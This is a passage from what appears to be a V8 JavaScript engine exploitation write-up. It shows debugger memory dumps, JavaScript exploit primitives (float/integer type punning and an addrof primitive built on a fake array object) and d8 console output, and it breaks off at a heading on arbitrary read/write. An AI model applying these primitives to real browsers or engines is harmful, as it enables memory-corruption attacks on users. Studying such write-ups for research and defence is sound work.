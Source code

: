 ```console
gef> tele 0x37ec002822a9-0x1
0x37ec002822a8|+0x0000|+000: 0x000006cd0018ed61
0x37ec002822b0|+0x0008|+001: 0x0000000400282299   # 0x00282299
```

```js
buf = new ArrayBuffer(8);
float_view = new Float64Array(buf);
u64_view = new BigUint64Array(buf);

function itof(i) {
    u64_view[0] = i;
    return float_view[0];
}

function ftoi(f) {
    float_view[0] = f;
    return u64_view[0];
}

function lo(x) {
    return x & BigInt(0xffffffff);
}

function hi(x) {
    return (x >> 32n) & BigInt(0xffffffff);
}

var idx = 13;

var addrof_arr = [spray, 0];
let addrof_arr_el = 0x282299n;

function addrof(o) {
    spray[idx] = itof(addrof_arr_el | (fakelen << 32n));
    addrof_arr[0] = o;
    return lo(ftoi(fakeobj[0]));
}

console.log(hex(addrof(addrof_arr)));
eval("%DebugPrint(addrof_arr)");
```

```console
$ ./d8 --allow-natives-syntax ./idk.js
[*] fakeobj double array with length = 0x80000
0x2822a9
0x2683002822a9 <JSArray[2]>
```

### Caged Arbitrary Address Read/Write Primitive


[^wb]: <https://v8.dev/blog/concurrent-marking>
[^smi-range]: <https://medium.com/fhinkel/v8-internals-how-small-is-a-small-integer-e0badc18b6da>